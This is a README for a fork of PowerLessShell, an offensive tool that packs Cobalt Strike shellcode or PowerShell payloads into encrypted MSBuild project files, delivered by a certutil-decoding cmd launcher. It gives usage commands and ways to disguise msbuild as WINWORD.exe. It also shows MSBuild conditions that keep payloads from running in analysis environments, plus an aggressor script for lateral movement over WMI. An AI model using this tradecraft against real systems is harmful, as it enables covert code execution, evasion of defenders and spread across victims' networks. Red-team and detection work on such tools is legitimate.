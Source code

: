 # PowerLessShell

**PowerLessShell uses MSBuild.exe to execute PowerShell scripts and commands or raw shellcode without spawning powershell.exe.**

*This is a fork from https://github.com/Mr-Un1k0d3r/PowerLessShell. This fork contains documentation changes and payload and various functionality enhancements.*

### How it works

PowerLessShell reads in the desired input file, encrypts it with RC4 and then hex encodes it. After this an msbuild project template is populated with the payload and key to decrypt it. The rest of the magic is taken care of by the csproj template created by [Mr-Un1k0d3r](https://github.com/Mr-Un1k0d3r/PowerLessShell) which uses MSBuild's capability of running inline tasks in build files to execute the necessary code. This is then base64 encoded and stuck inside of a cmd file that has a bit of logic in it to decode the payload with certutil and launch it in the correct directory based on user context. Check the source code if you want any more details...

#### Templates

Templates are located in the repo under PowerLessShell/include:

- template-powershell.csproj
- template-shellcode.csproj

The script obfuscates variables from the template. Variables should be named with VAR + a number (i.e. "VAR1").

### Prerequisites

This fork uses [Click](http://click.pocoo.org/5/) for command line input.  To install it from PyPI:

```
pip install click
```



## Usage

### Payloads

Generate shellcode with Cobalt Strike, using `Attacks > Packages > Payload Generator` or for a stageless payload use `Attacks > Packages > Windows Executable (S)` select "Raw" and save the file somewhere convenient.

Alternatively you can supply an arbitrary PowerShell script to be run instead of shellcode. Generate or obtain these the usual ways.

### Help

```
$ ./PowerLessShell.py --help
Usage: PowerLessShell.py [OPTIONS] [PAYLOAD] [OUTFILE]

  Accepts a powershell script or raw shellcode, then encrypts with RC4,
  base64 encodes, and sticks into a csproj template to be executed as inline
  task on the client side. The csproj is then hex encoded and output as a
  cmd file to be launched on a target machine using wmi or schtask, etc. The
  command file uses certutil to decode the csproj, renames msbuild (if
  admin), and then launch the payload.

  [PAYLOAD] defaults to ./beacon.bin
  [OUTFILE] defaults to ./output/payload.cmd

Options:
  -k, --kind [ps|sc]  Powershell (ps) or shellcode (sc) input file, script
                      tries to autodetect based on extension (ps1=powershell,
                      bin=shellcode).
  --known-process     Disguise msbuild as a common Windows executable
  -d, --domain TEXT   Domain name to check for prior to running payload
  --csproj-out        Also output the csproj file
  --help              Show this message and exit.
```

### Example

If the file `beacon.bin` is in the current directory and the output directory `output` already exists, you can just run the script and everything should be detected.

```
./PowerLessShell.py
PowerLessShell - More PowerShell Less Powershell.exe - Mr.Un1k0d3r RingZer0 Team / blark's fork
            ___
        .-"; ! ;"-.
      .'!  : | :  !`.
     /\  ! : ! : !  /\
    /\ |  ! :|: !  | /\
   (  \ \ ; :!: ; / /  )
  ( `. \ | !:|:! | / .' )
  (`. \ \ \!:|:!/ / / .')
   \ `.`.\ |!|! |/,'.' /
    `._`.\\!!!// .'_.'
       `.`.\|//.'.'
        |`._`n'_.'|
        `----^----"

Using payload file beacon.bin, type shellcode
Not writing csproj to disk, if you want this use the --csproj switch
Writing ./output/payload.cmd
```

Otherwise you can do something like this:

```
$ ./PowerLessShell.py -k ps --csproj-out --known-process leetpayload.txt icq_updater.cmd
```

<stdin> and <stdout> work too:

```
$ cat payload.ps1 | ./PowerLessShell.py -k ps - stdin.cmd
$ ./PowerLessShell.py leetscript.ps1 - | xclip
```

**Notes**:

- In order to prevent the payload from running in an analysis environment the USERDOMAIN condition create a check to see if the user's domain matches the one provided before executing the payload. This is an optional parameter.

- Known process name will cause the msbuild.exe to be renamed to something like WINWORD.exe instead of a randomly generated string (see code for exact list of names).

  ​



## Screenshot

The following example is running the RC4 RAT https://github.com/Mr-Un1k0d3r/RC4-PowerShell-RAT without running a single instance of PowerShell

![PowerLessShell](https://ringzer0team.com/powershellless.png)



## MSBuild conditions

MSBuild conditions can be used to avoid running code in unintended (read: analysis) environments.

```
<Target Name="x" Condition="'$(USERDOMAIN)'=='RingZer0'">
```

The malicious code will only be executed if the current domain is "RingZer0"

Several conditions can be used to create more thorough execution check, for example:

```
<Target Name="x" Condition="'$(registry:HKEY_LOCAL_MACHINE\blah@blah)'>='0'">
```

See the following for more information:

- [MSBuild Conditions](https://msdn.microsoft.com/en-us/library/7szfhaft.aspx)
- [Property Functions](https://docs.microsoft.com/en-us/visualstudio/msbuild/property-functions).



## Cobalt Strike Aggressor script (wmi_msbuild.cna)

**By MrT-F**

*This script needs updating to match the new command line...*

cd into your cobalt strike client directory
```
cd /root/cobaltstrike
```
Clone this repository into folder PowerLessShell
```
git clone https://github.com/Mr-Un1k0d3r/PowerLessShell.git
```
Load the aggressor script in your Cobalt Strike Console
Laterally move just like other Cobalt Strike macros:
```
wmi_msbuild [target] [listener]
```



## Credit

Original code by Mr.Un1k0d3r RingZer0 Team 2017





